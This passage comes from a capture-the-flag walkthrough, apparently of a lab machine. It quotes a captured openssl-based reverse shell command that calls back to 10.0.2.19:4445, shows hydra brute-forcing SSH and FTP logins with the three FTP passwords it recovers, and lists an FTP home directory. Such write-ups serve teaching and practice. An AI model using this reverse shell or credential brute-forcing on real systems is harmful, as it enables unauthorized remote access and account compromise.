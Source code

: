          0K ...                                                   100%  318M=0s

    2018-12-10 21:53:20 (318 MB/s) - 'root.c' saved [3094/3094]

    mkfifo /tmp/rH7dQR; /bin/bash -i 2>&1 < /tmp/rH7dQR | openssl s_client -quiet -connect 10.0.2.19:4445 > /tmp/rH7dQR; rm /tmp/rH7dQR
    depth=0 C = AU, ST = Some-State, O = Internet Widgits Pty Ltd
    verify error:num=18:self signed certificate
    verify return:1
    depth=0 C = AU, ST = Some-State, O = Internet Widgits Pty Ltd
    verify return:1



Streams 27 and 28 are the two `wget` requests for `Makefile` and
`root.c`. `Makefile` is a standard Makefile, but `root.c` is
interesting. I'll come back to that later. Stream 29 is an encrypted
connection, on 4445, so the `openssl` command from the end of 26.

### FTP Creds Check

The email said one pair of creds would work, but I want to check all the
creds I have here. I'll use `hydra` to check them for ssh and ftp.



    root@kali# hydra -L users -P passwords 10.10.10.155 -t 4 ssh

    [DATA] max 4 tasks per 1 server, overall 4 tasks, 21 login tries (l:7/p:3), ~6 tries per task
    [DATA] attacking ssh://10.10.10.155:22/
    1 of 1 target completed, 0 valid passwords found

    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-08-25 12:23:50
    root@kali# hydra -L users -P passwords 10.10.10.155 -t 4 ftp

    [DATA] max 4 tasks per 1 server, overall 4 tasks, 21 login tries (l:7/p:3), ~6 tries per task
    [DATA] attacking ftp://10.10.10.155:21/
    [21][ftp] host: 10.10.10.155   login: ib01c01   password: GetYouAH4t!
    [21][ftp] host: 10.10.10.155   login: ib01c03   password: Thi$sh1tIsN0tGut
    [21][ftp] host: 10.10.10.155   login: ib01ftp   password: YhgRt56_Ta
    1 of 1 target successfully completed, 3 valid passwords found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-08-25 12:24:09



Nothing on ssh, but three matches on ftp.

Access as ib01c03 doesn't seem to give me any more access than I already
have with my shell.

### FTP as ib01c01

I can connect as ib01c01, and I'm in that user's home directory. I can
see the `www` folder for the hats site, as well as `access.txt` and
`user.txt`:



    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    -rw-------    1 1001     1004           32 Jan 30  2019 access.txt
    -rw-r--r--    1 1001     1004     68175351 Dec 07  2018 prestashop_1.7.4.4.zip
    -rw-r-----    1 0        1004           33 Dec 07  2018 user.txt
    drwxr-xr-x   26 1001     1004         4096 Dec 10  2018 www
    226 Directory send OK.
